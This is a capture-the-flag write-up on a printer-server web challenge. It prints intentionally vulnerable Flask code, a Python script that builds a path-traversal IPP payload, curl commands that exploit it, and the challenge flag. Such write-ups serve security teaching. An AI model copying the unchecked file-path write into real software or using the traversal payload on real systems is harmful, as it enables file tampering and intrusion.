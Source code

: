 ```yaml
---
layout: writeup
title: Who checks the integrity of the integrity checks?
tags: WebX
---
```


## Description

The government has ordered verification of the votes via the printed receipts. The results were... a mismatch in votes! While there were probably multiple ways that this came as a result, is it possible for someone to tamper with the receipts?

As the backend code for all of week 4 was the same, we also had the backend code of the printer


## Solution

Here is the backend code of the printers:

```python
from flask import Flask, request, send_file, abort, Response
import os
import struct

app = Flask(__name__)

FLAG_PATH = "/flag.txt"
PRINTJOB_FOLDER = "/tmp/printjobs"
CHAL_TARGET_FOLDER = "/tmp/winners"

@app.route('/printers/votes', methods=['POST'])
def handle_print_job():
    data = request.data
    idx = 8
    if data[idx] != 0x01:
        return "Missing operation attributes tag", 400
    idx += 1

    filename = None
    try:
        while data[idx] != 0x03:
            tag = data[idx]
            name_len = struct.unpack(">H", data[idx+1:idx+3])[0]
            name = data[idx+3:idx+3+name_len].decode()
            val_len_offset = idx+3+name_len
            val_len = struct.unpack(">H", data[val_len_offset:val_len_offset+2])[0]
            val = data[val_len_offset+2:val_len_offset+2+val_len].decode()
            if name == "job-name":
                filename = val
            idx = val_len_offset + 2 + val_len
    except Exception:
        return "Malformed IPP attributes", 400

    idx += 1  # skip end tag
    pdf_data = data[idx:]

    if not filename:
        return "job-name attribute is required", 400

    with open(f"{PRINTJOB_FOLDER}/{filename}", "wb") as f:
        f.write(pdf_data)

    actual_path = os.path.realpath(os.path.join(PRINTJOB_FOLDER, filename))

    if actual_path.startswith(CHAL_TARGET_FOLDER):
        with open(FLAG_PATH, "r") as f:
            flag = f.read()

        with open(actual_path, "w") as f:
            f.write(flag)

    return Response("Print job saved", status=200, content_type="application/ipp")

@app.route("/files/<path:filename>")
def get_flag(filename):
    safe_path = os.path.realpath(os.path.join(CHAL_TARGET_FOLDER, filename))

    if not safe_path.startswith(os.path.realpath(CHAL_TARGET_FOLDER)):
        abort(403, description="Access denied")

    if not os.path.isfile(safe_path):
        abort(404, description="File not found")

    return send_file(safe_path)

@app.after_request
def add_printer_headers(response):
    response.headers["Server"] = "CUPS/2.3 IPP/2.0"
    return response

if __name__ == "__main__":
    os.makedirs(CHAL_TARGET_FOLDER, exist_ok=True)
    os.makedirs(PRINTJOB_FOLDER, exist_ok=True)
    app.run(host="0.0.0.0", port=631)
```

Now as this program ran on a different domain then all the other challenges, the first step was to figure out what domain the server was being run on. Now as I knew that the server for the mobile app was hosted at `http://mobile-app.commission.freedonia.vote` I figures, that it would probably be a very simmilar subdomain to this, so I tried `http://printer.commission.freedonia.vote` and what would you know it:

```bash
$ dig +short printer.commission.freedonia.vote
re.da.ct.ed
```

That has a IPv4 result in the DNS records. So, now knowing that the server was hosted at `http://printer.commission.freedonia.vote` its time to exploit.

Reading the code over we seem to need to input a value into `handle_print_job` that does directory traversal from `/tmp/printjobs/` into `/tmp/winners/` and then with `get_flag` we seem to be able to read any file within `/tmp/winners/` but can't do path traversal out of there.

The only hard part about this challenge is the complex `.ipp` file stuff that we appear to need to deal with. So after figuring out how `.ipp` files work, I came up with this python file which generates the `.ipp` file for me.

```python
import struct

fake_pdf = b"%PDF-1.7\n%...\n"

payload = b""

# They don't care about the first 8 bytes
payload += b"\x01" * 8 

# Operation Attributes Tag that needs to be \0x01 for some reason
payload += b"\x01"

# vars
header_name = b"job-name"
value = b"../winners/flaginsECUre123456.txt"

payload += b"\x00" # tag, not used
payload += struct.pack('>H', len(header_name)) # name_len
payload += header_name # name
payload += struct.pack('>H', len(value)) # val_len
payload += value # val

payload += b"\x03" # Ending character

payload += fake_pdf

with open("ipp_request.bin", "wb") as f:
	f.write(payload)
```

running this then writes a new `ipp_request.bin` file that contains the payload to submit. I called the file flaginsECUre123456.txt becuas ewe were told in the discord server not to call it guessable names so other teams can't just read our file but need to actually do the whole thing themselves, also becuase my team name was insECUre. I then submitted the payload

```bash
$ curl -X POST "http://printer.commission.freedonia.vote/printers/votes" --data-binary @ipp_request.bin -H "Content-Type: application/ipp"
Print job saved
```

 then read the file with /files

```bash
$ curl "http://printer.commission.freedonia.vote/files/flaginsECUre123456.txt"
cysea{cant_trust_anything_these_days_31fe6ba0a0}
```

 And there is our flag `cysea{cant_trust_anything_these_days_31fe6ba0a0}`
